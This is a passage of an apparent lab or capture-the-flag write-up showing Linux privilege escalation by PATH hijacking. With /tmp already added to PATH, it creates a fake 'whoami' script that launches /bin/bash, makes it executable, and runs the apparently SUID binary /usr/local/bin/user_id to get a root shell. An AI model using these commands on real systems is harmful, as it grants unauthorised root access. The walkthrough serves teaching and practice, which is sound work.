 we can see /tmp path has been added 

##### 6 create whoami binary into /tmp 
```
vim whoami 

#!/bin/bash

/bin/bash 

add this content into binary/script 
```

![](Attachments/Pasted%20image%2020250222225847.png)

Then assign executable permission for /tmp/whoami 

```bash
chmod 755 /tmp/whoami
```

![](Attachments/Pasted%20image%2020250222230012.png)

##### Run custom binary 
```
/usr/local/bin/user_id 
```

![](Attachments/Pasted%20image%2020250222230304.png)

You can see we got root access.





